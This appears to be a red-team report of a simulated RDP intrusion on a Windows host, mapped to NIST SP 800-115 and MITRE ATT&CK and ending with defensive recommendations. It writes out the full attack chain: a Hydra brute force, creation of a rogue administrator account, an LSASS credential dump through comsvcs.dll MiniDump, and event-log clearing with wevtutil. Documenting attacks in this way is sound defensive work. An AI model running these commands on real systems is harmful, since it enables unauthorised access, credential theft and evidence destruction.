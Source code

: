 # Red Team Engagement: Suspicious Process & Credential Dump  
***Referencing NIST 800-115***  

> **Disclaimer**: The following documentation highlights malicious tactics and techniques used **exclusively** for **authorized Red Team** or penetration-testing exercises in alignment with **NIST SP 800-115** (Technical Guide to Information Security Testing and Assessment). Any real-world, unauthorized execution of these steps is **illegal** and unethical.

---

## 1. Overview
During this simulated Red Team engagement, the adversary (operating from a **Kali Linux** machine) identified and brute-forced Remote Desktop Protocol (RDP) on **king-vm**, successfully compromising the **Administrator** account. Once inside, the attacker performed system **enumeration**, **credential dumping**, and **log tampering**. The provided screenshots depict:
- Network scanning and service enumeration from Kali  
- Successful brute force attempts against the Administrator account  
- RDP session establishment and subsequent malicious commands on the target

---

## 2. NIST 800-115 Alignment
NIST SP 800-115 outlines four phases for penetration testing:
1. **Planning**: Defining scope and objectives  
2. **Discovery**: Gathering information, identifying vulnerabilities  
3. **Attack**: Exploiting systems and escalating privileges  
4. **Reporting**: Documenting findings, TTPs, and recommendations  

All malicious activities below were part of a **controlled** Red Team test, following these phases.

---

## 3. Reconnaissance & Initial Access (Kali Machine)
### 3.1 Network Scanning
From the **Kali** host, the attacker scanned the target’s IP to discover open ports/services:
`nmap -p 3389 <TARGET_IP>`

- Found **RDP (3389)** open on **king-vm**.

### 3.2 RDP Brute Force
Using a password-guessing tool (**Hydra**) on Kali, the attacker ran repeated login attempts against the **Administrator** account:
`hydra -l Administrator -P /path/to/passwordlist.txt rdp://<TARGET_IP>`
- Eventually gained a **valid** password for the built-in **Administrator** user.  
- This is visible in the screenshots, showing successful brute force output.

### 3.3 Establishing RDP Session
With a **valid password** discovered, the adversary used an RDP client from Kali (or any remote RDP client) to log in:
`rdesktop <TARGET_IP> -u Administrator -p <DiscoveredPassword>`
- Successfully accessed the **king-vm** desktop.  
- The screenshots show the attacker’s remote desktop session from Kali.

---

## 4. Post-Exploitation Activities on king-vm
Once inside, the attacker performed several key actions.

### 4.1 System Enumeration
Commands executed:
```
whoami
hostname
winver
systeminfo
ipconfig /all
arp -a
```

Identified OS version, patch level, network configuration, and local user context (administrator).

### 4.2 Privilege Escalation & Persistence
Administrator Account Modification

```
net user administrator Plokijuhy
Attempt to change Administrator password.
Creating a New Local Admin
```

```
net user EvilAdmin P@ssw0rd /add
net localgroup administrators EvilAdmin /add
```

Gave **EvilAdmin** full administrative privileges.

Malicious Service Creation

```
sc create EvilService
```

Used to register a potentially malicious service in the registry for persistence or lateral movement.

#### Modified registry keys under `HKCU`

### 4.3 Credential Dumping
```
tasklist | findstr lsass
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump 648 C:\lsass.dmp full
```

Dumped LSASS process into `C:\lsass.dmp`, allowing offline credential extraction (NTLM hashes or clear-text passwords if available).

### 4.4 Log Tampering
```
wevtutil el
wevtutil cl "Application"
wevtutil cl "Windows PowerShell"
```

Attempted clearing event logs with wevtutil to cover tracks. Some operations returned “Access is denied”, but the intent was clear.

---

## 5 MITRE ATT&CK Techniques
**T1078 - Valid Accounts:** Gaining admin access via brute force.

**T1003 - Credential Dumping:** Dumped LSASS memory using rundll32 comsvcs.dll, MiniDump.

**T1136 - Create Account:** Created “EvilAdmin” for persistent access.

**T1543 - Create or Modify System Process:** Registered new service EvilService to maintain foothold.

**T1070.001 - Log Deletion:** Attempted to clear event logs via wevtutil.

---

## 6. Findings & Recommendations
Enforce Strong Access Controls

Use MFA for RDP logins.
Enforce lockout policies after multiple failed attempts.
Restrict RDP Exposure

Avoid public-facing RDP; use VPN or a secure jump host.
Segment networks so that RDP is only accessible where necessary.
Credential Protection

Enable LSASS protections (e.g., Credential Guard).
Regularly monitor for MiniDump or suspicious processes.
Enhanced Logging & Alerts

Alert on event log clearing attempts and new service creations.
Monitor for repeated login failures or brute force patterns.
Harden Built-in Admin Accounts

Rename or disable default Administrator if not strictly required.
Implement password rotation and store credentials in a secure vault.

---

### 7. Conclusion
From their Kali attack box, the Red Team scanned, brute-forced, and established RDP access to king-vm using the default Administrator account. Post-compromise, they performed reconnaissance, created new administrator accounts, dumped credentials from LSASS, and attempted to delete Windows event logs. This scenario illustrates how unsecured RDP endpoints can lead to devastating intrusions. Following NIST SP 800-115 guidelines, the organization can implement stricter remote access controls, better monitoring, and robust credential policies to mitigate similar threats in the future.
